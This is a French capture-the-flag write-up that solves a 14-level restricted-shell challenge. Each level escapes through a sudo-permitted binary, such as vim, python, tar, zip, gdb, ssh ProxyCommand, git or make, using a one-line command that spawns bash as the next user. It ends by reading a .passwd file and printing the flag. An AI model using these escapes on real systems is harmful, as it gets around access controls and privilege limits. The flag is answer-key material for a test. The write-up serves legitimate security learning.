 # Bash - Restricted shells

## Description : 

> Ce défi consiste à effectuer une escalation de privilèges dans 14 shells avec des fonctionnalités restreintes.
> 
> Le site **gtfobins.github.io** montre comment exploiter (avec le bon payload) le seul programme exécutable dans un shell restreint et donc comment passer au niveau suivant.
> 
> Pour savoir quel programme peut être exécuté, il faut utiliser la commande `sudo -l`.
> 
> Pour passer au niveau suivant il faut appeler le programme avec `sudo -u NOM_UTILISATEUR_EXPLOITABLE NOM_PROGRAMME_EXPLOITABLE`

## Exploit : 

> **Level 0**
> 
> Dans cette étape, beaucoup de commandes ne sont pas disponibles à cause des limitations imposées par le **rbash**. Cependant, il est possible de faire `echo`.
> 
> Avec `echo $PWD` il est possible découvrir qu'on se trouve dans **/challenge/app-script/ch14**.
> 
> Avec `echo $PATH` on remarque qu'un dossier nommé **step1** est present.
> 
> Il suffit donc de faire `echo step1/*`, ce qui donnera comme résultat **step1/vim**
> 
> Une fois dans `vim`, il faut définir une variable qui pointera vers **/bin/bash** avec
> 
> `:set shell=/bin/bash`
> 
> Ensuite, il suffit d'appeler cette variable avec 
> 
> `:shell`


> **Level 1**
> 
> À ce point, la variable environnementale **PATH** doit être corrigée pour que les programmes puissent être exécutés correctement depuis **/usr/bin**
> 
> `export PATH=$PATH:/usr/bin`
> 
> En rentrant `sudo -l`, il est possible d'exécuter la commande `/usr/bin/python` avec les droits de **app-script-ch14-2**
> 
> Pour passer un niveau suivant il faut faire 
> 
> `sudo -u app-script-ch14-2 /usr/bin/python -c 'import os; os.system("/bin/bash")'`

> **Level 2** 
> 
> En rentrant `sudo -l`, il est possible d'exécuter la commande `/bin/tar` avec les droits de **app-script-ch14-3**
> 
> Pour passer un niveau suivant il faut faire 
> 
> `sudo -u app-script-ch14-3 /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash`

> **Level 3** 
> 
> En rentrant `sudo -l`, il est possible d'exécuter la commande `/usr/bin/zip` avec les droits de **app-script-ch14-4**
> 
> Pour passer un niveau suivant il faut faire 
> 
> `sudo -u app-script-ch14-4 /usr/bin/zip $(mktemp -u) /etc/hosts -T -TT 'bash #'`
 
> **Level 4** 
>
> En rentrant `sudo -l`, il est possible d'exécuter la commande `/usr/bin/awk` avec les droits de **app-script-ch14-5**
> 
> Pour passer un niveau suivant il faut faire 
> 
> `sudo -u app-script-ch14-5 /usr/bin/awk 'BEGIN {system("/bin/bash")}'`

> **Level 5** 
>
> En rentrant `sudo -l`, il est possible d'exécuter la commande `/usr/bin/gdb` avec les droits de **app-script-ch14-6**
> 
> Pour passer un niveau suivant il faut faire 
> 
> `sudo -u app-script-ch14-6 /usr/bin/gdb -nx -ex '!bash' -ex quit`
 
> **Level 6** 
>
> En rentrant `sudo -l`, il est possible d'exécuter la commande `/usr/bin/pico` avec les droits de **app-script-ch14-7**
> 
> Pour passer un niveau suivant il faut d'abord ouvrir `pico` avec 
> 
> `sudo -u app-script-ch14-7 /usr/bin/pico -s /bin/bash`
> 
> Ensuite, il faut écrire dans l'éditeur 
> 
> **/bin/bash**
> 
> et lancer avec **CTRL+T**
 
> **Level 7** 
>
> En rentrant `sudo -l`, il est possible d'exécuter la commande `/usr/bin/scp` avec les droits de **app-script-ch14-8**
> 
> Pour passer un niveau suivant il faut créer un fichier temporaire avec
> 
> `TF=$(mktemp)`
> 
> Le peupler avec
> 
> `echo 'bash 0<&2 1>&2' > $TF`
> 
> Lui donner les droits d'exécution avec
> 
> `chmod 777 "$TF"` (il faut qu'app-script-ch14-8 puisse y accéder aussi)
> 
> Et finalement lancer la commande finale 
> 
> `sudo -u app-script-ch14-8 /usr/bin/scp -S $TF x y:`

> **Level 8** 
>
> En rentrant `sudo -l`, il est possible d'exécuter la commande `/usr/bin/env` avec les droits de **app-script-ch14-9**
> 
> Pour passer un niveau suivant il faut faire 
> 
> `sudo -u app-script-ch14-9 /usr/bin/env /bin/bash`
 
> **Level 9** 
>
> En rentrant `sudo -l`, il est possible d'exécuter la commande `/usr/bin/ssh` avec les droits de **app-script-ch14-10**
> 
> Pour passer un niveau suivant il faut faire 
> 
> `sudo -u app-script-ch14-10 /usr/bin/ssh -o ProxyCommand=';bash 0<&2 1>&2' x`
 
> **Level 10** 
>
> En rentrant `sudo -l`, il est possible d'exécuter la commande `/usr/bin/git` avec les droits de **app-script-ch14-11**
> 
> Pour passer un niveau suivant il faut d'abord ouvrir le module d'aide de Git avec 
> 
> `sudo -u app-script-ch14-11 /usr/bin/git -p help`
> 
> Ensuite, il suffit rentrer
> 
> `!bash`
 
> **Level 11** 
>
> En rentrant `sudo -l`, il est possible d'exécuter la commande `/usr/bin/make` avec les droits de **app-script-ch14-12**
> 
> Pour passer un niveau suivant il faut faire 
> 
> `sudo -u app-script-ch14-12 /usr/bin/make -s --eval=$'x:\n\t-'"/bin/bash"`
 
> **Level 12** 
>
> En rentrant `sudo -l`, il est possible d'exécuter la commande `/usr/bin/script` avec les droits de **app-script-ch14-13**
> 
> Pour passer un niveau suivant il faut faire 
> 
> `sudo -u app-script-ch14-13 /usr/bin/script -q /dev/null`

> **Level 13** 
>
> En rentrant `sudo -l`, il est possible d'exécuter la commande `/bin/rbash --` avec les droits de **app-script-ch14-14**
> 
> Pour passer un niveau suivant il faut faire 
> 
> `sudo -u app-script-ch14-14 /bin/rbash --`

> **Level 14** 
>
> Dans ce dernier niveau, le shell restreint empêche l'exécution de beaucoup de commandes, mais il est possible quand-même de lancer la commande `echo`
> 
> Avec `echo $(pwd)` il est possible voir que le dossier courant est **/challenge/app-script/ch14/step14**, alors que le fichier **.passwd** est situé dans **/challenge/app-script/ch14/**
> 
> Il suffit donc de faire `echo $(< ../.passwd)`
> 
> Le flag obtenu est : **3sc@p3_G@m3s_@r3_R34lly_Fun!!** 
